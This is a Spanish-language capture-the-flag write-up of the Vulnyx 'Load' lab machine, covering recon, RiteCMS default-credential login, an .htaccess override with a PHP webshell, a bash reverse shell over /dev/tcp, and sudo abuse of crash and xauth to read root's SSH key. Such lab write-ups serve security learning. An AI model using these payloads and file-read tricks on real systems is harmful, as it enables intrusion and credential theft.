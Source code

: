 ```yaml
---
title: Vulnyx - Load
author: estx
date: 2024-04-28 16:41:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'Rite CMS', 'File Upload', 'Information Leakage']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Load/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Rite CMS, File Upload, Information Leakage**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.68	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```


a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.68 -oG ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:7D:6A:F0 (Oracle VirtualBox virtual NIC)
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80 -sCV -oN versions 192.168.100.68

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/ritedev/
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:7D:6A:F0 (Oracle VirtualBox virtual NIC)
```

c. Existe un directorio `/ritedev` en el que haremos un **fuzzing de directorios y archivos** para encontrar más recursos

```bash
❯ dirsearch -u 'http://192.168.100.68/ritedev/' 

[01:15:08] 200 -  559B  - /ritedev/admin.php
[01:15:15] 200 -    4B  - /ritedev/cms/
[01:15:18] 200 -    6B  - /ritedev/files/
[01:15:23] 403 -  279B  - /ritedev/media/
```


* Si nos vamos a `/admin.php` necesitaremos credenciales, en este caso, el sistema tiene las credenciales por defecto **`admin:admin`** [Credenciales RiteCMS](https://github.com/handylulu/RiteCMS). Una vez que nos autentiquemos veremos secciones en las cuales podemos subir archivos o imágenes. Al investigar por un forma de explotación llegamos a [RiteCMS Remote Code Execution](https://www.exploit-db.com/exploits/50616)

d. Cambiaremos las reglas del archivos **`.htaccess`** con el fin de subir un archivo php y ejecutar comandos

* **.htaccess**

    ```txt
    <Files *.php>
        deny from all
    </Files>

    <Files ~ "webshell\.php$">
        Allow from all
    </Files>
    ```

* **webshell.php**

    ```php
    <?php
        system($_GET['cmd']);
    ?>
    ```


* En el apartado de 'files'

    ![Files](/assets/images/Vulnyx/Easy/Load/01-files.png)


Subiremos nuestro archivo **.htaccess** (Sobreescribiendo al anterior) y al archivo webshell.php

e. Una vez realizado esto podremos ejecutar comandos

```bash
❯ curl -s -X GET 'http://192.168.100.68/ritedev/files/webshell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Nos entablaremos una reverse shell

    ```bash
    ❯ curl -s -X GET 'http://192.168.100.68/ritedev/files/webshell.php?cmd=bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/192.168.100.55/4445%200>%261"'
    -------------------------------------------------
    ❯ nc -lvnp 4445
    www-data@load:/var/www/html/ritedev/files$ 
    ```


    > El payload indicado se debe URLencodear, por eso en vez de 'espacios' vemos **%20**, y en vez de '&' vemos **%26**
    {: .prompt-info }


### Escalada de Privilegios 💹


a. Ahora realizamos un tratamiento de la TTY en la reverse shell

    ```bash
    www-data@load:/var/www/html/ritedev/files$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@load:/var/www/html/ritedev/files$ ^Z
    [1]  + 63970 suspended  nc -lvnp 4445
    ❯ stty raw -echo;fg
    [1]  + 63970 continued  nc -lvnp 4445
                                        reset xterm


    www-data@load:/var/www/html/ritedev/files$ export TERM=xterm-256color
    www-data@load:/var/www/html/ritedev/files$ source /etc/skel/.bashrc 
    ```

b. Al listar los privilegios a nivel de sudoers de este usuario vemos que podemos ejecutar **`crash`** como el usuario travis

```bash
www-data@load:/var/www/html/ritedev/files$ sudo -l

User www-data may run the following commands on load:
    (travis) NOPASSWD: /usr/bin/crash
```

* Si investigamos en [GTOFBins](https://gtfobins.github.io/gtfobins/crash/), existe una forma de escalar privilegios

```bash
www-data@load:/var/www/html/ritedev/files$ sudo -u travis /usr/bin/crash -h
```

* Se nos abrirá una ventana con la información del usuario del programa, en este punto tecleamos `!/bin/bash`

c. Ya como el usuario **travis** veremos que podemos ejecutar `xauth` como el usuario root

```bash
travis@load:/var/www/html/ritedev/files$ sudo -l 

User travis may run the following commands on load:
    (root) NOPASSWD: /usr/bin/xauth
```


* Con xauth podemos leer un archivo en el cual se indiquen comando válidos para el comando, pero, en caso de que esta lectura encuentre comandos no válidos, lo vemos por pantalla

```bash
travis@load:/var/www/html/ritedev/files$ sudo -u root /usr/bin/xauth source /etc/passwd
/usr/bin/xauth:  file /root/.Xauthority does not exist
/usr/bin/xauth: /etc/passwd:1:  unknown command "root:x:0:0:root:/root:/bin/bash"
/usr/bin/xauth: /etc/passwd:2:  unknown command "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin"
/usr/bin/xauth: /etc/passwd:3:  unknown command "bin:x:2:2:bin:/bin:/usr/sbin/nologin"
<SNIP>
```

d. Con lo anterior en mente, podemos leer cualquier archivo y como el servicio SSH estaba abierto, podemos intuir que el usuario root tiene una clave id_rsa

```bash
travis@load:/var/www/html/ritedev/files$ sudo -u root /usr/bin/xauth source /root/.ssh/id_rsa
/usr/bin/xauth:  file /root/.Xauthority does not exist
/usr/bin/xauth: /root/.ssh/id_rsa:1:  unknown command "-----BEGIN"
/usr/bin/xauth: /root/.ssh/id_rsa:2:  unknown command "MIIEpAIBAAKCAQEAn1xk2mDBXCTen7d97aY7rEVweRUsVE5Zl4sGPG/yXLAAuodz"
/usr/bin/xauth: /root/.ssh/id_rsa:3:  unknown command "xjGuAqvTRhG4omhxiJeDr9taOePsIaUGI3Q/qBqUsbnuM/86vu/ANM6+Olzt80fc"
/usr/bin/xauth: /root/.ssh/id_rsa:4:  unknown command "Cv1QVKIdFOweMAiXskvQEV7Fw3qha7fFbf/D8L7BCgXrT70/p9jf4FBroC9pFsRy"
<SNIP>
/usr/bin/xauth: /root/.ssh/id_rsa:27:  unknown command "-----END"
```

* Copiamos la clave id_rsa y la completamos

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAn1xk2mDBXCTen7d97aY7rEVweRUsVE5Zl4sGPG/yXLAAuodz
<SNIP>
JAavd3wkMRXHLIOQtOiV9z3F2PmbO3h6yR6esFl0tGcnfZYmaiZJN/MLZKpL9WI/
WuTyDRk99zQu4GNenQiUDmxYCuOuX5kggXaakAN98THXncO38BAAiA==
-----END RSA PRIVATE KEY-----
```


> Se completó los delimitadores de la clave id_rsa `-----BEGIN RSA PRIVATE KEY-----` y `-----END RSA PRIVATE KEY-----`. En otros casos puede que sea **OPENSSH** y no **RSA**
{: .prompt-info }

c. Le damos el permido **`600`** a la clave id_rsa y nos podremos conectar como **root** en el sistema

```bash
❯ chmod 600 id_rsa
❯ ssh root@192.168.100.68 -i id_rsa
root@load:~# cat /root/.roooooooooooooooooooooooooooooooooooot.txt 
85ed9306438d8302cbb4dcbc7c5491b3
```
